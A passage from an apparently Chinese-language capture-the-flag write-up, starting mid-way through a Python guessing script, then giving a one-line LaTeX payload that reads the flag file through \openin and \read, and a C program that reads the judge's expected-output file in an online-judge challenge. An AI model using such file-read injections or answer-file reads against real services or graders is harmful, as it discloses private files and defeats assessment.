 ```python
        num = (left + right) // 2
        tmp = num
        guess(str(num/1000000))
        less, more, num = check()
        # print(less, more, num)
    return times, tmp

if __name__ == '__main__':
    l = [500000]
    while True:
        # n = 500000*(len(l)+1) - sum(l)
        # n = min(n, 1000000)
        # n = max(n, 0)
        n = 1000000 - sum(l)//len(l)
        times, num = crack(n)
        l.append(int(num))
        print(times, n, num, sum(l)//len(l))
        if times == 1:
            break
    print('done')
```

## LaTeX机器人

Level1 我的解法：

```tex
\newread\myread \openin\myread=/flag1 \read\myread to \fileline \fileline{}
```

Level2 打不通，但找到一个可以取消所有转义的函数 ~~（但我忘了是什么）~~。

## 安全的在线测评

我 Level1 的解法，但似乎预期是用编译器读？

```c
#include <stdio.h>

int main() {
    // read 2 lines from file
    char buf[400];
    scanf("%s", buf);

    FILE *fp = fopen("./data/static.out", "r");
    fgets(buf, 400, fp);
    printf("%s", buf);
    fgets(buf, 400, fp);
    printf("%s", buf);
    fclose(fp);
    return 0;
}
```
